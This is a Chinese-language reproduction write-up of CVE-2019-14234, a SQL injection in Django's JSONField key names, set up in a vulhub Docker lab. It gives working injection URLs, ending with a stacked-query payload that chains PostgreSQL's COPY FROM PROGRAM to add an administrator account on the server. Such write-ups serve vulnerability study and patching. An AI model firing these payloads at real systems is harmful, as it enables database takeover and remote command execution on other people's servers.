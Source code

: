 ```yaml
---
title: "（CVE-2019-14234）Django JSONField sql注入漏洞"
id: zhfly2886
---
```


# （CVE-2019-14234）Django JSONField sql注入漏洞

## 一、漏洞简介

该漏洞需要开发者使用了JSONField/HStoreField，且用户可控queryset查询时的键名，在键名的位置注入SQL语句。

Django通常搭配postgresql数据库，而JSONField是该数据库的一种数据类型。该漏洞的出现的原因在于Django中JSONField类的实现，Django的model最本质的作用是生成SQL语句，而在Django通过JSONField生成sql语句时，是通过简单的字符串拼接。

通过JSONField类获得KeyTransform类并生成sql语句的位置。

其中key_name是可控的字符串，最终生成的语句是WHERE (field->'[key_name]') = 'value'，因此可以进行SQL注入。

## 二、漏洞影响

1.11.x before 1.11.23

2.1.x before 2.1.11

2.2.x before 2.2.4

## 三、复现过程

### 环境搭建

```
git clone https://github.com/vulhub/vulhub.git
cd vulhub/django/CVE-2019-14234/
docker-compose up -d 
```

### 漏洞利用

#### 1、登录后台

http://ip:8000/admin/vuln/collection/

#### 2、构造URL进行查询

http://ip:8000/admin/vuln/collection/?detail__a%27b=123

![image](../img/34c875f4a044e1cef87230f4356fa07e.png)

可以看到已经注入成功，并且可以看到构造的SQL语句

为进一步验证注入语句，我们继续构造

```
http://ip:8000/admin/vuln/collection/?detail__title')='1' or 1=1-- 
```

后台生成的sql语句的关键部分是

```
WHERE ("vuln_collection"."detail" -> 'title')='1' or 1=1-- ') = %s 
```

由于or 1=1永为真，因此应该返回所有结果，页面返回结果符合预期，如下图

![image](../img/eab8468dd2ef055014fe5e37aee6a26c.png)

下一步结合CVE-2019-9193我们尝试进行命令注入，构造url如下

```
http://ip:8000/admin/vuln/collection/?detail__title')%3d'1' or 1%3d1 %3bcreate table cmd_exec(cmd_output text)--%20 
```

页面结果虽然报错，但是报错原因是no results to fetch，说明我们的语句已经执行

![image](../img/f315c629d55e7fb03ceb93bbf1d46386.png)

最终payload

```
http://ip:8000/admin/vuln/collection/?detail__title')%3d'1' or 1%3d1 %3bcopy cmd_exec FROM PROGRAM 'net user admin admin /add'--%20 
```